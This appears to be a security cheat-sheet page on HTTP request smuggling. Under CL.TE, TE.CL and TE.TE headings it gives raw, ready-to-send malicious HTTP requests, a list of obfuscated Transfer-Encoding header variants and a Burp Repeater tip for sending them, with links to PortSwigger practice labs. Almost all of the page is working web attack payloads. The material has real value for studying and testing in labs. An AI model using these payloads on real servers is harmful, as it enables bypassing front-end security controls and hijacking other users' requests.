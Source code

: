 # Request Smuggling

## Summary

- [CL.TE vulnerabilities](#cl.te-vulnerabilities)
- [TE.CL vulnerabilities](#te.cl-vulnerabilities)
- [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
- [References](#references)

## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server
> uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge:
https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server
> uses the Content-Length header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to
the Repeater menu and ensure that the "Update Content-Length" option is
unchecked.You need to include the trailing sequence \r\n\r\n following the
final 0.

Challenge:
https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header,
> but one of the servers can be induced not to process it by obfuscating the
> header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge:
https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

- [PortSwigger - Request Smuggling](https://portswigger.net/web-security/request-smuggling)
